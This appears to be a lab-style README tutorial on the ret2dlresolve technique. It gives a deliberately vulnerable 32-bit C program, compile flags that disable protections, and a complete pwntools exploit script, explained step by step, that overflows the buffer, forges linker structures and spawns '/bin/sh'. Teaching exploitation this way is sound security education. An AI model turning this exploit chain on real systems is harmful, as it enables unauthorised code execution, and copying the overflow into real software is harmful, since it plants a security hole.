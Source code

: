 # ret2dlresolve in a 32-bit 

## 🔧 Setup

### 🔹 Source Code (vulnerable program)

```c
#include <unistd.h>

void vuln(void) {
    char buf[64];
    read(STDIN_FILENO, buf, 200);  // buffer overflow
}

int main(int argc, char** argv) {
    vuln();
}
```

### 🔹 Compile with:

```bash
gcc -m32 -fno-stack-protector -no-pie -o vuln source.c
```

* `-m32`: 32-bit binary
* `-fno-stack-protector`: disables stack canaries
* `-no-pie`: disables PIE (no ASLR for code, fixed base addresses)

---

## 🧠 Vulnerability Overview

* **Buffer overflow** in `vuln()` → we read 200 bytes into a 64-byte buffer.
* Allows us to **control EIP** and pivot to a ROP chain.
* However, **no `system@plt` or `/bin/sh` is available** in the binary or GOT.
* This is where **ret2dlresolve** comes in.

---

## ⚔️ What is ret2dlresolve?

> It's a technique to call **dynamic linker (`ld.so`) resolution manually**, to resolve functions **not yet resolved** at runtime (like `system`), by forging relocation and symbol entries.

---

## 📜 Full Exploit Breakdown

```python
from pwn import *

# Load the ELF binary and prepare context
elf = context.binary = ELF('./vuln', checksec=False)
p = elf.process()
rop = ROP(elf)
```

### 🔹 Step 1: Prepare the dynamic linker resolver

```python
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])
```

* `Ret2dlresolvePayload` builds:

  * `.dynstr`: the string table (`"system"`)
  * `.dynsym`: a fake `Elf32_Sym` symbol structure
  * `.rel.plt`: a fake `Elf32_Rel` relocation structure
* All these are placed at `dlresolve.data_addr` (writable memory, e.g., `.bss`)
* Calculates the `reloc_offset` for `ret2dlresolve()`.

---

### 🔹 Step 2: Create ROP Chain

```python
rop.raw('A' * 76)
```

* Fills the buffer (`64 bytes`) + `12 bytes` padding to reach return address (`EIP` overwrite).

```python
rop.read(0, dlresolve.data_addr)
```

* Calls `read(0, dlresolve.data_addr, ...)` to **write the fake structures** into memory.
* `0` → stdin
* `dlresolve.data_addr` → destination memory (like `.bss`)
* This gets triggered when the first stage payload runs.

```python
rop.ret2dlresolve(dlresolve)
```

* Calls a function like `foo@plt` (any function that triggers `resolve()`).
* Dynamic linker uses the **fake relocation** structure and symbol name to resolve `system`.
* Then jumps to it with our provided args (`/bin/sh`).

---

### 🔹 Step 3: Send First Stage

```python
p.sendline(rop.chain())
```

* Sends the **first stage ROP chain**, which:

  1. Overflows the buffer
  2. Calls `read()` to write the fake structures
  3. Triggers `ret2dlresolve()` to resolve and call `system("/bin/sh")`

```python
p.sendline(dlresolve.payload)
```

* Sends the **second stage**: the fake structures for `.rel.plt`, `.dynsym`, `.dynstr`
* These get written to memory by the `read()` we called in stage 1

```python
p.interactive()
```

* You get a shell 🐚

---

## 📦 Memory Layout After Exploit

![result](./img/result.png)
---

## 🧮 How ret2dlresolve Works Internally

1. You call `.plt[0]` with `reloc_offset`.
2. The dynamic linker checks `.rel.plt[reloc_offset]`.
3. It sees the **fake relocation** entry you placed at `.bss`.
4. It uses the index to get a **fake symbol** (Elf32\_Sym).
5. Uses `st_name` to read the string `"system"` from your fake `.dynstr`.
6. Resolves it using the dynamic symbol resolution process (same as lazy binding).
7. Updates the GOT (optionally), then **calls `system("/bin/sh")`**.

---


